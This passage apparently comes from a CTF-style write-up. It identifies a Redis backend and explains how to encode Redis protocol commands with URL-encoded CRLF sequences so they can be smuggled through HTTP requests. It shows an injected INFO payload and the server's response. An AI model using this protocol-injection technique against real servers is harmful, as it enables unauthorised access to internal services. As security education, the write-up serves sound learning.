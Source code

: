 Server response was:
```
debug response:
-ERR wrong number of arguments for 'get' command

```

At these point, I was sure that It was a Redis service.
Then, I started to search how [Redis protocol](https://redis.io/topics/protocol "Redis protocol") works.

Finally, I found this [resource](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) that explains how to use redis via http request.

There are some fundamentals things to know to send HTTP request(*form link above*):
> 
- everything is separated with new lines (here CRLF)
- a command starts with &apos;&ast;&apos; and the number of arguments ("&ast;1" + CRLF)
- then we have the arguments, one by one:
   - string: the &apos;$&apos; character + the string size ("$4" + CRLF) + the string value ("TIME" + CRLF)
   - integer: the &apos;:&apos; character + the integer in ASCII (":42" + CRLF)


Therefore, following the [command list](https://redis.io/commands), a simple INFO request:

`*1 INFO `

become:

`%0d%0a*1%0d%0aINFO%0d%0a`

that returned:

    
    $-1
    $3305
    # Server
    redis_version:5.0.5
    redis_git_sha1:00000000
    redis_git_dirty:0
    redis_build_id:8160a3edb641e7cf
    redis_mode:standalone
    os:Linux 4.6.0-kali1-amd64 x86_64
    arch_bits:64
    multiplexing_api:epoll
    atomicvar_api:atomic-builtin
    gcc_version:8.3.0
    process_id:8
    run_id:675167eb19c73df259f4a968ed11ec817d06e511
    tcp_port:6379
    uptime_in_seconds:24178
    uptime_in_days:0
    hz:10
    configured_hz:10
    lru_clock:5958458
    executable:/usr/src/app/redis-server
    config_file:/usr/local/etc/redis/redis.conf
    